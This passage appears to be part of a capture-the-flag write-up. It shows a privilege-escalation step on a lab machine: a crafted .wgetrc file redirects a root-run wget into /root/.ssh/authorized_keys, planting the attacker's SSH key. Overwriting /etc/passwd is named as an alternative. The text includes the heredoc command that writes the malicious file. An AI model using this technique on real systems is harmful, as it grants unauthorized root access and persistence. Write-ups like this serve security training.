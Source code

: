 ![](/assets/img/posts/timing/wgetrc-file-append.png)

with that we can append a root user in `/etc/passwd` file or add ssh public key in root ssh directory.

Lets create ssh `authorized_keys` in `/root/.ssh` and put our ssh public key.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /root/.ssh/authorized_keys
EOF
```

* Before running make sure that `/usr/bin/netutils` executing wget is recursive mode with `-r`.

![](/assets/img/posts/timing/wgetrc-rooted.png)